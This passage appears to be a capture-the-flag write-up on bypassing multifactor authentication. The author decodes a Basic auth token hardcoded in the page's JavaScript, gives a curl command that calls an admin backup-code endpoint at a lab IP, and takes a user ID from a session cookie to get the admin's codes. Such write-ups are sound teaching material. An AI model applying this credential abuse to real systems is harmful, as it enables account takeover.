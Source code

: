 Thus bringing us to the real problem of `How to bypass the Multifactor Authentication and gain Access`



Step 2: Inspection Inspection

Thus I decided to inspect the page and went through the js code of the page only to find that the backup code generation was admin only privilege.


`
fetch("/api/admin/backup/generate", {
  method:"POST",
  headers: {
    "Content-Type":"application/json",
    Authorization:`Basic YXBpLWFkbWluOkFwaU9ubHlCYXNpY1Rva2Vu`
  },
  body: JSON.stringify({user_id:user_id})
})
`


The string was base 64 encoded which translated to:


`
YXBpLWFkbWluOkFwaU9ubHlCYXNpY1Rva2Vu
= api-admin:ApiOnlyBasicToken
`


Thus the basic authorization credentials was hardcoded.


`
curl -X POST http://15.206.47.5:5000/api/admin/backup/generate \
  -H "Content-Type: application/json" \
  -H "Authorization: Basic YXBpLWFkbWluOkFwaU9ubHlCYXNpY1Rva2Vu" \
  -d '{"user_id":"<root_user_id_here>"}'
`


Inorder to generate the backup codes I needed to retrieve the user id which was different from what we had retrieved in the 3rd challenge.Thus I decided to retrieve session cookies to see if they revealed something important.


`
Cookie session=eyJsb2dnZWRfaW4iOmZhbHNlLCJ1c2VyX2lkIjoiZjsJmOTY4NTUtOGMwNS00NTk5LWE5OGMtZjdmMmZkNzE4ZmEyIiwidXNlcm5hbWUiOiJyMDB0dXMzciJ9.aKs6mw.uOryaH5YkgtfMulhwphRv74JswA`


This session cookie tells us that the currently logged in user `r00tus3r` has a userid `f2f96855-8c05-4599-a98c-f7f2fd718fa2`

Thus by simply replacing the userid with the above mentioned string I got access to the backup codes of the admin.

![image.png](./assets/images/3defbfac-2d6b-4e55-acfe-74a10142092b.png)
